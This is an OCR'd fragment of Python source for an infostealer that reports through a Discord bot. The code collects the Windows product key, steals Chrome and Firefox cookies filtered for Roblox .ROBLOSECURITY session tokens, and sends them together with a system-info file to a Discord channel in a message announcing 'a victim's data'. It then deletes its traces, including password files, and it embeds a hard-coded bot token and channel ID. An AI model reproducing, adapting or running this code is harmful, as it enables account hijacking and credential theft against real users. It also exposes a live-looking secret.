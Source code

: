 ```
        keys = subprocess.check_output('wmic path softwarelicensingservice get OA3xOriginalProductKey').decode().split('\n')[1].strip()
        types = subprocess.check_output('wmic os get Caption').decode().split('\n')[1].strip()
    except Exception as e:
        print(f"Error getting system info: {e}")
        usr = "Unknown"
        keys = "Unknown"
        types = "Unknown"

    cookie = [".ROBLOSECURITY"]
    cookies = []
    limit = 2000
    roblox = "No Roblox cookies found"

    try:
        cookies.extend(list(steal.chrome()))
    except Exception as e:
        print(f"Error stealing Chrome cookies: {e}")

    try:
        cookies.extend(list(steal.firefox()))
    except Exception as e:
        print(f"Error stealing Firefox cookies: {e}")

    try:
        for y in cookie:
            send = str([str(x) for x in cookies if y in str(x)])
            chunks = [send[i:i + limit] for i in range(0, len(send), limit)]
            for z in chunks:
                roblox = f'```{z}```'
    except Exception as e:
        print(f"Error processing cookies: {e}")

    embed = discord.Embed(title=f"Data from {hostname}", description="A victim's data was extracted, here's the details:", color=discord.Color.blue())
    embed.add_field(name="Windows Key", value=f"User: {usr}\nType: {types}\nKey: {keys}", inline=False)
    embed.add_field(name="Roblox Security", value=roblox[:1024], inline=False)
    embed.add_field(name="Tokens", value=message[:1024], inline=False)
    
    await channel.send(embed=embed)
    
    with open(r'C:\ProgramData\system_info.json', 'w', encoding='utf-8') as f:
        json.dump(system_info, f, indent=4, ensure_ascii=False)
    
    await channel.send(file=discord.File(r'C:\ProgramData\system_info.json'))

    try:
        os.remove(r'C:\ProgramData\pay2winflag.jpg')
        os.remove(r'C:\ProgramData\pay2winflag.jpg.enc')
        os.remove(r'C:\ProgramData\passwords.zip')
        os.remove(r'C:\ProgramData\passwords.txt')
        os.remove(r'C:\ProgramData\system_info.json')
    except Exception as e:
        print(f"Error cleaning up: {e}")

BOT_TOKEN = "MTM2NDIzNDEzNjE5MzMzOTQyNA.GHC4yD.ZUzwkrAEMW9GlLsmVnP7FbdY317MqM234Bd2vE"
CHANNEL_ID = 1371505369230344273

if __name__ == "__main__":
    bot.run(BOT_TOKEN)

```